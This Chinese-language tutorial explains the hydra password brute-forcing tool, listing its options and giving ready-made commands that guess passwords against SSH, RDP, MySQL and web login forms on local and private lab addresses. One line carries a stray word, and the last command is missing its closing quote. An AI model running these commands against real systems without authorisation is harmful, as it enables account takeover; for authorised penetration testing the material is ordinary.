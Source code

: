 hydra是著名组织thc的一款开源的暴力破解密码工具，功能非常强大
kali下是默认安装的，几乎支持所有协议的在线破解。
密码能否破解，在于字典是否强大以及电脑的性能。

参数

-l login 小写，指定用户名进行破解

-L file 大写，指定用户的用户名字典

-p pass 小写，用于指定密码破解，很少使用，一般采用密码字典。

-P file 大写，用于指定密码字典。

-e ns 额外的选项，n：空密码试探，s：使用指定账户和密码试探

-M file 指定目标ip列表文件，批量破解。

智榜样-o file 指定结果输出文件

-f 找到第一对登录名或者密码的时候中止破解。

-t tasks 同时运行的线程数，默认是16

-w time 设置最大超时时间，单位

-v / -V 显示详细过程

-R 恢复爆破（如果破解中断了，下次执行 hydra -R /path/to/hydra.restore 就可以继续任务。）

-x 自定义密码。


破解SSH登录密码
#先要确定shh是启动的 service ssh restart
#指定kali账号 用password.txt文件 使用3个线程，爆破本地的ssh
hydra -l kali -P password.txt -t 3 -e ns 127.0.0.1 ssh


破解Window登录密码
hydra -l administrator -P password.txt -t 3 -e ns 192.168.0.95 rdp


破解mysql登录密码
service mysqld restart
mysql -uroot
ALTER USER 'root'@'localhost' IDENTIFIED BY '123456';

hydra -l root -P password.txt -t 3 -e ns localhost mysql



破解HTTP请求
hydra -t 3 -l luojie -P password.txt -s 80 192.168.0.47 http-post-form
"/login.php:user=^USER^&pass=^PASS^:用户名或密码错误"
hydra -t 3 -l luojie -P password.txt -s 80 192.168.209.1 http-get-form "/login.php:user=^USER^&pass=^PASS^:用户名或密码错误
